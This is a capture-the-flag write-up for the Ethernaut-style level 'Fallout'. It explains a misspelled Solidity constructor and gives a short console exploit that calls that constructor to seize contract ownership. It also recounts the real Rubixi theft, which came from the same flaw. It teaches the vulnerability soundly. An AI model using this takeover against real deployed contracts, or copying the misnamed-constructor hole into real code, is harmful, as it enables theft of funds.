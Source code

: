 # 02. Fallout
<sup>Difficulty 2/10</sup>

Claim ownership of the contract below to complete this level.

Things that might help:

- Solidity Remix IDE

## Solution

...

a typo...

in the constructor name...

`Fal1out` instead of `Fallout`

```solidity
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```

```javascript
await contract.Fal1out({value: toWei('0.00000001')})
await contract.owner() == player
// true
```

## OZ Corner

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
